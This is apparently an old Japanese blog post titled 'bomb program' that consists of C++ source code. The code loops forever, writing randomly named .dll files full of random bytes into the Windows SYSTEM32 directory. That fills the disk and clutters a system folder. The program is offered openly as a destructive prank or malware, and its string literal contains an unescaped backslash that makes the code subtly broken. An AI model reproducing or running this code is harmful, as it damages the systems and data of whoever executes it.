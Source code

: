 ```yaml
---
title: "爆弾プログラム"
post_id: "3093"
date: "2003-12-12T11:00:00+09:00"
draft: false
tags: []
---
```



#include <string>

    #include <fstream>

    #include <cstdlib>

    void main( void ){

     using namespace std;

     string dir = "C:\\WINDOWS\SYSTEM32\";

     while( 1 ){

      string name;

      int rnd = rand();

      for( int i = 0; i < ( rnd >> 10 ); i++ ){

       name.resize( name.size() + 1 );

       name[ i ] = 0x61 + ( rand() >> 11 );

      }

      ofstream file( ( dir + name + ".dll" ).c_str() );

      for( int j = 0; j < rnd; j++ ) file << ( char )rand();
    file.close();

     }

    }
